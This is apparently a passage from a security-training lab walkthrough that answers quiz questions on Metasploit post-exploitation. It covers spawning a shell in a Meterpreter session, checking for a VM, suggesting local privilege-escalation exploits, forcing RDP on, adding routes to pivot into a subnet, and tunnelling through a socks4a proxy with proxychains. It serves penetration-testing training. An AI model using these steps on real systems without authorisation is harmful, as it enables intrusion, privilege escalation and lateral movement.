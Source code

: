 8) 	
How about if we want to run a Metasploit module?
``
run
``

9) 
A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?
``
ipconfig
``


10)	
Let's go ahead and run a few post modules from Metasploit. First, let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.

11)
Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`.

12)
Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`

13)
One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?
``
shell
``

##Makin' Cisco Proud 
1)
Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
``
run autoroute -s 172.18.1.0 -n 255.255.255.0
``

2)
Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?
`background`

``
auxiliary/server/socks4a 
``

3)
Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?
``
proxychains
``